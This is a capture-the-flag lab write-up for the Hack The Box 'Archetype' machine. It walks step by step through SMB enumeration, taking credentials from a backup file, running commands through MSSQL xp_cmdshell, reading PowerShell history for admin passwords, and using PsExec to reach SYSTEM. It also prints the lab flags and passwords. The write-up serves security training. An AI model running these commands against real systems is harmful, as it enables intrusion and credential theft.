





# Archetype

This write-up is provided strictly for educational purposes, to demonstrate how exposed backup files, credential reuse, and misconfigured services can be leveraged in controlled lab environments.

## Overview

This write-up documents the compromise of the _Archetype_ machine from Hack The Box Starting Point (VIP).

The attack path is fully evidence-based and reproducible. No brute force or guessing was used.

The compromise involved:

- Full TCP port scanning
- SMB share enumeration
- Credential extraction from backup files
- MSSQL authentication
- Command execution via xp_cmdshell
- Credential discovery in PowerShell history
- Privilege escalation via PsExec
- Root flag extraction

---

## Answers Summary

- **Database port** → `1433`
- **Non-administrative SMB share** → `backups`
- **Password found in backup file** → `M3g4c0rp123`
- **Impacket MSSQL script** → `mssqlclient.py`
- **MSSQL command execution procedure** → `xp_cmdshell`
- **Privilege escalation enumeration script** → `winpeas`
- **File containing administrator password** → `ConsoleHost_history.txt`
- **User Flag** → `3e7b102e78218e935bf3f4951fec21a3`
- **Root Flag** → `b91ccec3305e98240082d4474b848528`

---

## 1. Initial Reconnaissance

A full TCP scan was performed to identify exposed services.

```bash
sudo nmap -sCV <target-ip> -p- --min-rate 1000
```

### Command Breakdown

- `-sC` → Default NSE scripts
- `-sV` → Service/version detection
- `-p-` → Scan all 65535 TCP ports
- `--min-rate 1000` → Increase scan speed

### Results

Relevant open ports:

```
445/tcp  open  microsoft-ds
1433/tcp open  ms-sql-s
```

Port **1433** indicates Microsoft SQL Server.

---

## 2. Enumerating SMB Shares

List available shares:

```bash
smbclient -L //<target-ip> -N
```

Discovered shares:

```
ADMIN$
backups
C$
IPC$
```

The only non-administrative share is:

> backups

---

## 3. Extracting Credentials from Backup Share

Access the share:

```bash
smbclient //<target-ip>/backups -N
```

List files:

```bash
ls
```

Download configuration file:

```bash
get prod.dtsConfig
exit
```

Inspect the file:

```bash
cat prod.dtsConfig
```

Extracted credentials:

```
User: sql_svc
Password: M3g4c0rp123
```



---

## 4. MSSQL Authentication

Authenticate to MSSQL using Windows authentication:

```bash
impacket-mssqlclient sql_svc:M3g4c0rp123@<target-ip> -windows-auth
```

Verify sysadmin privileges:

```sql
SELECT IS_SRVROLEMEMBER('sysadmin');
```

Result:

```
1
```



---

## 5. Enabling Command Execution

Enable xp_cmdshell:

```sql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```



---

## 6. Retrieving the User Flag

Locate user directory:

```sql
EXEC xp_cmdshell 'dir C:\Users';
```

Inspect Desktop:

```sql
EXEC xp_cmdshell 'dir C:\Users\sql_svc\Desktop';
```

Retrieve user flag:

```sql
EXEC xp_cmdshell 'type C:\Users\sql_svc\Desktop\user.txt';
```

User flag:

```
3e7b102e78218e935bf3f4951fec21a3
```



---

## 7. Discovering Administrator Credentials

Read PowerShell history file:

```sql
EXEC xp_cmdshell 'type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt';
```

Discovered credentials:

```
Administrator
MEGACORP_4dm1n!!
```

---

## 8. Privilege Escalation via PsExec

Use discovered credentials:

```bash
impacket-psexec Administrator:'MEGACORP_4dm1n!!'@<target-ip>
```

Verify SYSTEM privileges:

```cmd
whoami
```

Result:

```
nt authority\system
```

---

## 9. Retrieving the Root Flag

```cmd
type C:\Users\Administrator\Desktop\root.txt
```

Root flag:

```
b91ccec3305e98240082d4474b848528
```



---

## Key Takeaways

- Exposed backup shares may leak service credentials.
- MSSQL services running with sysadmin privileges allow full command execution.
- xp_cmdshell provides direct OS-level access.
- PowerShell history files can leak administrative credentials.
- PsExec can be used to escalate privileges to SYSTEM when valid credentials are obtained.

---

## Conclusion

The compromise of the Archetype machine required:

1. Identifying MSSQL and SMB exposure.
2. Extracting credentials from a backup configuration file.
3. Authenticating to MSSQL with sysadmin privileges.
4. Enabling xp_cmdshell for OS command execution.
5. Recovering administrator credentials from PowerShell history.
6. Escalating to SYSTEM using PsExec.
7. Retrieving the root flag.

This lab demonstrates how exposed backup files and poor credential handling can lead to complete system compromise.
